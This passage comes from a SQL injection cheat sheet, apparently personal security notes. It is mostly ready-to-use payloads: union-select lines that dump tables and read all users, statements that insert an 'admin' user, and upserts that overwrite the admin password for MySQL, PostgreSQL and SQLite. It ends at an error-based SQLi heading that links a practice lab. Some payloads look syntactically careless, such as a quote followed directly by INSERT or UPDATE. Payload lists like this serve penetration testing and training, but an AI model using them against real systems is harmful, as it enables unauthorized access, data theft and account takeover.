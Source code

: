 ### Dumping Table

```html
' UNION SELECT table_name FROM table_name--
' UNION SELECT table_name,NULL FROM table_name--
```

<br /><br />

## Fetch All Entities

```txt
' UNION SELECT * FROM users-- -
'; SELECT * FROM users-- -
```

<br /><br />

## Modify Data

### Insert Arbitrary Data

```html
' INSERT INTO users (username, password) VALUES ('admin', 'pass')-- -
```

### Update Arbitrary Data

```html
' UPDATE users SET password='password123' WHERE username='admin'-- -
' UPDATE users SET password='password123' WHERE id=1-- -
```

### Upsert

This is a combination of **`UPDATE`** and **`INSERT`** operation. If a particular row already exists, it will be updated with new values. Here are examples that update password for the existing **`admin`** user.

```html
<!-- MySQL -->
INSERT INTO users (username, password) VALUES('admin', '') ON DUPLICATE KEY UPDATE password=''-- -

<!-- PostgreSQL, SQLite -->
INSERT INTO users (username, password) VALUES ('admin', '') ON CONFLICT (username) DO UPDATE SET password='password'--
```

<br /><br />

## Error-based SQLi

Reference: [https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

